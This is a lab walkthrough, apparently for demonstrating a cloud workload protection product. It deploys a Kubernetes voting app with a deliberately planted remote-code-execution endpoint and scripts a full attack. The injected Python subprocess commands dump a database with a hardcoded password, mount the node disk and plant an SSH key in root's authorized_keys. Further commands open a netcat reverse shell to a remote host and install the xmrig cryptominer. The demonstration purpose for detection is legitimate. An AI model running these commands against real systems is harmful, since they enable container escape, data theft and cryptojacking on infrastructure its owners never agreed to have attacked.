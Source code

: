 # Lacework Cloud Workload Protection Platform - the voteapp application

Deploy a 4 micro services application and run a Remote Code Execution Attack

Just follow the steps below

## Deploy the Application

(you can deploy it within your preferred namespace, here we use default for simplicity)

```
$ kubectl apply -f vote.yml
```

```
$ kubectl get deploy
NAME     READY   UP-TO-DATE   AVAILABLE   AGE
db       1/1     1            1           82s
redis    1/1     1            1           82s
result   1/1     1            1           81s
vote     1/1     1            1           81s
worker   1/1     1            1           81s
```
We see that our vote deployment is delivered via 1 pod

```
$ kubectl get svc/vote
NAME   TYPE           CLUSTER-IP      EXTERNAL-IP                                                               PORT(S)        AGE
vote   LoadBalancer   172.20.224.94   a022c3b3d1ae542048da983c811fc41e-1943360625.eu-west-3.elb.amazonaws.com   80:30711/TCP   116s
```

## New connection from Vote App pod to Postgres pod

### Access the Application Web Interface
This interface is fake and created for the purpose of this RCE Attack.
It aims at illustrating what can be done when a developer left the capability for a Remote Code to be executed via a specific Query String parameter for a specific Application Endpoint.

Use your preferred browser and connect to http://URL_VOTE_APP//?hacker=true


### Install postgres on the pod and connect to DB
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("apt-get update; apt-get install -y postgresql-client; export PGPASSWORD='postgres'; psql -h db -U postgres -c 'SELECT * FROM votes'")
```

## On a client machine - aka the Remote Host - (ex: your laptop), start a netcat server
### Start netcat (make sure port 5555 is open to the world on your host):
```
nc -knvlp 5555
```

## Gain access to the host where the Vote App pod is running on
### Mount the node filesystem into the pod
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("mkdir -p /mnt/node_volume; mount /dev/xvda1 /mnt/node_volume")
```

You can ckeck the node volume is properly mounted by running:
```
$ kubectl exec -it od/vote-58f757c598-7kzgn  -- df -a
```

### Setup ssh on the pod, setup a pub/private key and install the pubkey in the nodes authorized key file
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("[ -d '/mnt/node_volume/bin' ] && (rm -rf .ssh; mkdir .ssh; apt update; apt install ssh-client -y; ssh-keygen -t rsa -N '' -f .ssh/id_rsa; cat .ssh/id_rsa.pub >> /mnt/node_volume/root/.ssh/authorized_keys)")
```

### Make a ssh connection from the pod to the node, install netcat
Please Run the following command in the Command Window:
```
__import__("subprocess").getoutput("[ -d '/mnt/node_volume/bin' ] && (SSH_HOST=$(cat /mnt/node_volume/etc/hostname); ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null -v -i .ssh/id_rsa root@$SSH_HOST \"yum install -y nc; mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | /usr/bin/nc REMOTE_HOST_IP 5555 1>/tmp/backpipe\")")
```

You should see the following message from the Remote Host:
```
Connection from 13.37.242.25 30628 received!
```


## On the Remote host 

### Download xmrig on the K8 node and unpack the files:
```
wget https://github.com/xmrig/xmrig/releases/download/v6.15.0/xmrig-6.15.0-linux-static-x64.tar.gz
tar -xvf xmrig-6.15.0-linux-static-x64.tar.gz
```

### Move into the xmrig dir and execute the binary:
(Do not let xmrig running for more than 10 min since you may face issues with your Cloud Service Provider)
```
cd xmrig-6.15.0 
chmod +x xmrig
xmrig
```






